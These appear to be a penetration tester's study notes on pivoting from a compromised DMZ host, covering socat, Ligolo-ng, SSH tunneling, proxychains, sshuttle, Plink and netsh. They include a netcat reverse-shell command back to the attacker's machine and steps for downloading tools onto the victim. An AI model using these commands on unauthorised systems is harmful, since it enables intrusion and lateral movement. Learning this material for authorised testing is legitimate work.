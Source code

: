 ```yaml
---
layout: blank
pagetitle: Port Redirection and SSH Tunneling
---
```


## Port Forwarding

**Upgrading terminal**
- Might need to run `python3 -c 'import pty; pty.spawn("/bin/sh")'` to upgrade terminal

**Port Redirection and Tunneling examples**
- Port redirection (a type of forwarding): take traffic from one socket and passing it to another
- Tunneling: Encapsulating one type of data inside another (like HTTP inside SSH)
- **How do you know when to port forward?**
	- Once inside a box, use `ip addr`, `ipconfig`, and `ip route` to find connected subnets
	- Then, use scripts like `for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done` to find open ports (a basic nmap for linux)
		- Use ``1..254|%{$ip="172.16.50.$_";$p=445;$t=New-Object Net.Sockets.TcpClient;$r=$t.BeginConnect($ip,$p,$null,$null);if($r.AsyncWaitHandle.WaitOne(1000)){try{$t.EndConnect($r);Write-Host "$ip`:$p open"}catch{}}else{Write-Host "$ip`:$p closed"};$t.Close()}`` for powershell

**Port forwarding with Linux**
- Useful in situations where we need to access an internal server through a DMZ machine we own
- One way of doing this is starting a verbose (-ddd) Socat process listening on some port and forwarding traffic to the internal IP
	- `socat -ddd TCP-LISTEN:{External_Port},fork TCP:{Internal_IP}:{Internal Port}`
- Can also use *rinetd*, netcat + FIFO named pipe, or *iptables* if we have root

## Ligolo-ng
- Grab latest proxy and agent: https://github.com/nicocha30/ligolo-ng/releases/
  - Proxy file for kali and an agent file for the DMZ machine
- Setup on kali (create tun interface):
	- `sudo ip tuntap add user kali mode tun ligolo`
	- `sudo ip link set ligolo up`
	- `./kali-proxy -selfcert`
		- This will return a port
- (Windows) agent:
	- `ligolo-agent.exe -connect {kali_IP}:{kali_port} -ignore-cert`
	- This program won't exit
- Join a session: `session`, then specify session number
- Adding a pivot (After grabbing network information from client and session running):
	- On kali: `sudo ip route add {ipconfig_IP}/{mask} dev ligolo`
		- Make sure the final IP portion, in front of the mask, is 0 (otherwise `ip` will get mad)
	- Within DMZ session on ligolo: `start`
- Now, we should literally have access to internal machines as though Kali was in the network
- Reverse shell from internal machine -> DMZ -> kali:
	-  `listener_add --addr 0.0.0.0:1338 --to 127.0.0.1:{kali_listening_port}`
		- This created a listener on the DMZ machine on port 1338 to forward all traffic to kali on port 4444
	- Then, we send reverse shells to port 1338 on the DMZ machine, rather than our kali IP
- File upload to internal machine:
	- `python -m http.server` on kali
	- `listener_add --addr 0.0.0.0:1339 --to 127.0.0.1:8000`
		- Forwarding all traffic that reaches DMZ on 1339 to kali on 8000
	- Now, we `iwr/wget {DMZ_IP}:1339/{file}`
	
## SSH Tunneling
- Can also be referred to as "SSH Port Forwarding"
- SSH was designed to securely transmit traffic, so it was used initially for a lot of tunneling

**SSH Local Port Forwarding**
- Done with SSH's `-L` option
	- Used to forward incoming traffic on the current machine from the machine we SSH INTO to another machine
	- `ssh -N -L 0.0.0.0:{current_machine_inbound_port}:{2nd_hop_forwarding_IP}:{forwarding_port} {username}@{intermediary_machine_IP}`
		- `0.0.0.0` just means listening on all interfaces
		- `-N` just means don't show output, so we only see forwarding-related stuff
	- Basically, we are in the network-facing machine. We want to forward traffic from one-hop to two-hops away to an arbitrary port, so we ssh from the pwned box into the one-hop box with the port-forwarding info. The info states that our port (in the example, 4455) will accept incoming connections (e.g. outside the network), send those along ssh, and then ssh on the one-hop machine will forward the traffic to the two-hop machine's port specific in the ssh-command. jeez

**SSH Dynamic Port Forwarding**
- Useful when we want to do more than a 1:1 port forward
	- This basically allows us to shift our commands one machine down
- OpenSSH uses a SOCKS proxy server port to listen, enabling this technique
- Uses the `-D` option
- Usage: `ssh -N -D 0.0.0.0:{inbound_port} {username}@{IP}`
	- This opens 9999 on the internet-facing machine that we control and tells it to accept and forward SOCKS traffic, as shown below
- Then, use *ProxyChains* to communicate over SOCKS
	- Edit `/etc/proxychains4.conf`, putting "socks5 {IP} {port} at the end"
		- This IP and port are the entrance to the internal network that we control
	- `proxychains {command} -L //{IP}/ -U {username} --password={password}`
		- `{command}` could be anything, like `smbclient` or `nmap`
		- The SOCKS traffic would be forwarded to the IP from the machine ssh'd into

**SSH Remote Port Forwarding**
- It's basically using an SSH tunnel's egress traffic to send commands through the client
- Useful when firewalls are getting in the way (e.g. can't ssh in/open new ports)
	- Thus, we set up an SSH server on OUR machine and bind the listening port to the loopback interface
		- Will need to run `sudo systemctl start ssh`
		- This does mean that we're giving the compromised machine our LITERAL credentials, so it might be good to create a new user lmfao
	- This means that packets sent are pushed through the SSH tunnel back to the compromised DMZ machine
- Uses the `-R` option, run from compromised DMZ machine
- Example: listening on 2345 on Kali and forwarding traffic to the 1-hop internal machine
	- `ssh -N -R localhost:{2345}:{internal_1hop_IP}:{internal_1hop_port} username@{kali_IP}`
- Traffic can then be sent to the machine by sending traffic to that port on localhost
	- Example: `psql -h localhost -p {2345} -U {username}`

**SSH Remote Dynamic Port Forwarding**
- Remote, and forwards traffic based on where they're addressed
- Example running on 9998:
	- `ssh -N -R 9998 kali@{kali_IP}`
	- Then, in `/etc/proxychains4.conf`:
		- `socks5 127.0.0.1 9998`
	- `proxychains {command with internal 1-hop IP as target}`
		- `proxychains nmap {internal_IP}`

**Using sshuttle**
- Basically turns SSH into a VPN
- First, port forward in traffic on the pwned machine on a certain port
	- For example, use Socat to allow inbound traffic on 2222, forward it to new machine (whose credentials we know) on port 22, since we're ssh'ing into that machine
- Then, `sshuttle -r {user}@{pwned_target_IP}:{pwned_target_port} {subnet1} {subnet2}`
	- The subnets are ones that we require access to from the pwned machine
- Then, we can just make requests to hosts in the subnet
	- For example, `nmap {private_IP}`

## Port Forwarding with Windows Tools

**Using SSH on Windows**
- Pretty much the same, as it's OpenSSH - comes bundled with Windows after 2018
- Remote Dynamic port forward:
	- Same as linux `ssh -N -R {kali_port} kali@{kali_IP}`
	- Modify kali `/etc/proxychains4.conf` to have `socks5 127.0.0.1 {kali_ssh_port}`
	- Then, same as before, use `proxychains` with commands and internal IPs passed

**Plink**
- OpenSSH might not be on Windows, so Plink might be used instead
- This is used for bypassing a firewall INTO the DMZ machine (going from shell to RDP even with RDP port blocked)
- Need netcat on the target, located in /windows-resources/binaries/nc.exe
	- Grab it with `powershell wget -uri {uri}/nc.exe -OutFile {desired_outfile.exe}`
	- Run a shell with `nc.exe -e cmd.exe {kali_IP} {port}`
- Download plink.exe using same command as above ^^
- `plink.exe -ssh -l kali -pw {pass} -R 127.0.0.1:{kali_port}:127.0.0.1:{port_we_want_to_open_on_DMZ} {kali_ip}`
	- This is basically just ssh'ing into kali to open up a port on the DMZ machine
- Then, for example, `xfreerdp3 /u:{username} /p:{password} /v:127.0.0.1:{kali_port}`, as the box has SSH'd into kali and is running on kali port, so we can rdp into that

**Netsh**
- Built-in to the firewall, thus should require Administrator
- Assume RDP is open, and we want to go to 1hop internal machine via SSH
- 1st, rdp using `xfreerdp3`
- Then, `netsh interface portproxy add v4tov4 listenport={open_port} listenaddress={current_machine_IP_from_kali} connectport={port_of_1hop_machine} connectaddress={1hop_internal_IP}`
	- Need to open {open_port} on the firewall - `netsh advfirewall firewall`
		- `netsh advfirewall firewall add rule name="{any_name}" protocol=TCP dir=in localip={kali_ip} localport={open_port} action=allow`
		- To delete the rule, `netsh advfirewall firewall delete rule "{rule_name}"`
- To delete the port forward, run `netsh interface portproxy del v4tov listenport={open_port} listenaddress={kali_IP}`
- Can verify what is running with `netstat -anp TCP` or `netsh interface portproxy show all`